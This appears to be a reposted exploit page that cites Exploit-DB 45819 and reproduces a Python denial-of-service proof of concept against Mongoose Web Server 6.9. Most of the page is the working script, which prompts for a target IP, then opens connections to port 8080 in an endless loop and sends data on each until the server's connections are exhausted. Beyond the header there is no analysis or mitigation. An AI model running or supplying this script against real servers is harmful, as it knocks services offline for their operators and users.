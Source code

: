 **|**漏洞来源 

 https://www.exploit-db.com/exploits/45819
                                                            

​                                                 

#####  **|**漏洞EXP                            

```
# Exploit Title: Mongoose Web Server 6.9 - Denial of Service (PoC)
# Dork: N/A
# Date: 2018-11-11
# Exploit Author: Ihsan Sencan
# Vendor Homepage: https://cesanta.com/binary.html
# Software Link: https://backend.cesanta.com/cgi-bin/api.cgi?act=dl&os=win
# Version: 6.9
# Category: Dos
# Tested on: WiN7_x64/KaLiLinuX_x64
# CVE: N/A

# POC: 
# 1)

#!/usr/bin/python
import socket

print """
         \\\|///
       \\  - -  //
        (  @ @ )
 ----oOOo--(_)-oOOo----
Mongoose Web Server 6.9
    Ihsan Sencan
 ---------------Ooooo----
                (   )
       ooooO     ) /
       (   )    (_/
        \ (
         \_)
"""
Ip = raw_input("[Ip]: ")
Port = 8080 # Default port
 
d=[]
c=0
while 1:
    try:
        d.append(socket.create_connection((Ip,Port)))
        d[c].send("BOOM")
        print "Sie!"
        c+=1
    except socket.error: 
        print "Done!"
        raw_input()
        break
```